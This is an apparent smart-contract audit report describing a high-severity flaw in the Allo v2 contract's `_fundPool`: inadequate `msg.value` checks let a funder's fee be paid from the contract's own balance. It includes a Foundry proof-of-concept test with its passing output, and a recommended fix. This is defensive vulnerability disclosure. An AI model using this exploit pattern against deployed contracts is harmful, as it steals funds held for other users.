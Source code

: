 Clumsy Pecan Jay

high

# Insufficient `msg.value` validation in `Allo` results in free funding of pools.

When funding - `msg.value` is checked to be more then or equal to the funding amount after deducting the fee. Therefore, a pool creator can pass a `msg.value` that excludes the fee and the fee will be paid using the `Allo` contract balance.

## Vulnerability Detail

See below `_fundPool` and `_transferAmountFrom`:
```solidity
    function _fundPool(uint256 _amount, uint256 _poolId, IStrategy _strategy) internal {
        uint256 feeAmount;
        uint256 amountAfterFee = _amount;

        Pool storage pool = pools[_poolId];
        address _token = pool.token;

        if (percentFee > 0) {
            feeAmount = (_amount * percentFee) / getFeeDenominator();
            amountAfterFee -= feeAmount;

            _transferAmountFrom(_token, TransferData({from: msg.sender, to: treasury, amount: feeAmount}));
        }

        _transferAmountFrom(_token, TransferData({from: msg.sender, to: address(_strategy), amount: amountAfterFee}));
        _strategy.increasePoolAmount(amountAfterFee);

        emit PoolFunded(_poolId, amountAfterFee, feeAmount);
    }

    function _transferAmountFrom(address _token, TransferData memory _transferData) internal returns (bool) {
        uint256 amount = _transferData.amount;
        if (_token == NATIVE) {
            // Native Token
            if (msg.value < amount) revert AMOUNT_MISMATCH();

            SafeTransferLib.safeTransferETH(_transferData.to, amount);
        } else {
------
    }
```

Notice that there are two `_transferAmountFrom` calls in `_fundPool`. 
`_transferAmountFrom` reverts if `msg.value` is smaller then amount passed to it.

The first is to pay the fee and therefore `msg.value >= feeAmount` 
The second is to fund the pool after fee deduction and therefore `msg.value >= amountAfterFee`.

The funder can set `msg.value` to `amountAfterFee` to successfully fund the pool and pay `feeAmount` using the `Allo` contract balance.

It is important to note it is expected that the `Allo` contract will contain additional funds in it.
Users are forced to overpay when creating pools.
Additionally there is an explicit recovery method is implemented `recoverFunds` to recover the funds to the recipient.
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L283C17-L283C17

## Impact

Free creation of pools using `Allo` balance without paying fees from creator balance.

## Code Snippet

Add the following test to `RFPSimpleStrategy.t.sol`

```solidity
    function test_fundPoolWithoutFee() public {
        // Fund Allo
        vm.deal(address(allo()), 1 ether);

        // Calculate fund amount with and without fee
        uint256 amountWithFee = 10 ether;
        uint256 amountAfterFee = amountWithFee - ((amountWithFee * 1e16) / 1e18);

        // Fund the admin with the amount minus fee
        vm.deal(pool_admin(), amountAfterFee);

        // Fund the pool using the total amount but only send amount minus fee
        vm.prank(pool_admin());
        allo().fundPool{value: amountAfterFee}(poolId, amountWithFee);
    }
```

To execute run the command:
```solidity
forge test --match-test "test_fundPoolWithoutFee" -v
```

Expected output:
```solidity
Running 1 test for test/foundry/strategies/RFPSimpleStrategy.t.sol:RFPSimpleStrategyTest
[PASS] test_fundPoolWithoutFee() (gas: 119789)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.13ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```
## Tool used

Manual Review

## Recommendation

In `_fundPool` add a check:
```solidity
if (msg.value < _amount) revert AMOUNT_MISMATCH();
```